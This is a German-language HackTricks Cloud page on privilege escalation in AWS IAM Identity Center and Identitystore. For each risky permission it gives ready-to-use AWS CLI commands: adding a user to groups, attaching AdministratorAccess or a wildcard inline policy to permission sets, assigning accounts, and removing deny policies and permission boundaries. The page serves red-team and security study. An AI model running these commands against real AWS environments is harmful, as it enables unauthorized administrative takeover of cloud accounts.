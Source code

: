 # AWS - SSO & Identitystore Privilege Escalation

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Für weitere Informationen zu AWS Identity Center / AWS SSO siehe:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beachten Sie, dass standardmäßig nur **Benutzer** mit Berechtigungen **aus dem** **Management Account** auf das IAM Identity Center zugreifen und es **kontrollieren können**.\
Benutzer aus anderen Konten können dies nur zulassen, wenn das Konto ein **Delegierter Administrator** ist.\
[Überprüfen Sie die Dokumentation für weitere Informationen.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Passwort zurücksetzen~~

Ein einfacher Weg, um Berechtigungen in Fällen wie diesem zu eskalieren, wäre eine Berechtigung zu haben, die es ermöglicht, Benutzerpasswörter zurückzusetzen. Leider ist es nur möglich, dem Benutzer eine E-Mail zum Zurücksetzen seines Passworts zu senden, daher benötigen Sie Zugriff auf die E-Mail des Benutzers.

### `identitystore:CreateGroupMembership`

Mit dieser Berechtigung ist es möglich, einen Benutzer in eine Gruppe zu setzen, damit er alle Berechtigungen erbt, die die Gruppe hat.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen für einen Berechtigungssatz gewähren, der einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen für einen Berechtigungssatz gewähren, der einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen für einen Berechtigungssatz gewähren, der einem Benutzer unter seiner Kontrolle gewährt wird.

{% hint style="warning" %}
Um diese Berechtigungen in diesem Fall zu missbrauchen, müssen Sie den **Namen einer kundenverwalteten Richtlinie kennen, die in ALLEN Konten** bekannt ist, die betroffen sein werden.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ein Angreifer mit dieser Berechtigung könnte einem Benutzer unter seiner Kontrolle einen Berechtigungssatz für ein Konto zuweisen.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Gibt die STS-Kurzzeitberechtigungen für einen bestimmten Rollennamen zurück, der dem Benutzer zugewiesen ist.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Allerdings benötigen Sie einen Zugriffstoken, von dem ich nicht sicher bin, wie man ihn erhält (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Verknüpfung zwischen einer AWS-Managed-Richtlinie und dem angegebenen Berechtigungssatz entfernen. Es ist möglich, mehr Rechte zu gewähren, indem eine verwaltete Richtlinie (Verweigerungsrichtlinie) entfernt wird. 

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Verbindung zwischen einer kundenverwalteten Richtlinie aus dem angegebenen Berechtigungssatz entfernen. Es ist möglich, mehr Privilegien zu gewähren, indem eine verwaltete Richtlinie (Verweigerungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungen aus einer Inline-Richtlinie aus dem Berechtigungssatz entfernen. Es ist möglich, **mehr Privilegien zu gewähren, indem eine Inline-Richtlinie (Deny-Richtlinie) abgehängt wird**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungsgrenze aus dem Berechtigungssatz entfernen. Es ist möglich, **mehr Privilegien zu gewähren, indem die Einschränkungen auf dem Berechtigungssatz** entfernt werden, die durch die Berechtigungsgrenze festgelegt wurden.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Lernen Sie und üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories senden.

</details>
{% endhint %}
